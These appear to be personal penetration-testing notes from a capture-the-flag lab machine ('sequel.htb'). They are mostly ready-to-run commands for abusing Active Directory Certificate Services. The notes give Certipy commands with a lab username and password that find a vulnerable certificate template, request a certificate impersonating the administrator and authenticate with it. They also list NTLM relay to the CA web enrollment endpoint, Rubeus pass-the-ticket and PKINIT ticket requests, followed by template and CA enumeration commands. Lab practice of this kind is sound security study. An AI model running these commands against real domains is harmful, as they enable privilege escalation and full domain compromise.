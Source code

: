 ```text
```

That is the admin hash.






## Certipy

```bash
/home/kali/.local/bin/certipy
/home/kali/.local/bin/certipy  find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
```
Look for `'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication` and then
```bash
/home/kali/.local/bin/certipy  req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
sudo ntpdate -u sequel.htb
/home/kali/.local/bin/certipy  auth -pfx administrator.pfx
```


Older stuff:
```bash
ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController
-> Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
-> gettgtpkinit.py -pfx-base64 $(cat cert.b64) <domain>/<dc_name>$ <ccache_file>

certipy relay -ca <ca_ip> -template DomainController -> certipy auth -pfx <certificate> -dc-ip <dc_ip>
```
## Get templates information 
```
certutil -v -dsTemplate
certify.exe find [ /vulnerable]
certipy find -u <user>@<domain> -p <password> -dc-ip <domaincontroller>
```
## Display CA information
```
certutil -TCAInfo
certify.exe cas
```
## Get CA flags (if remote registry is enabled)
```
certutil -config "CA_HOST\CA_NAME" -getreg "policy\EditFlags"
certipy / certify.exe (only the flag ATTRIBUTESUBJECTALTNAME2)
```
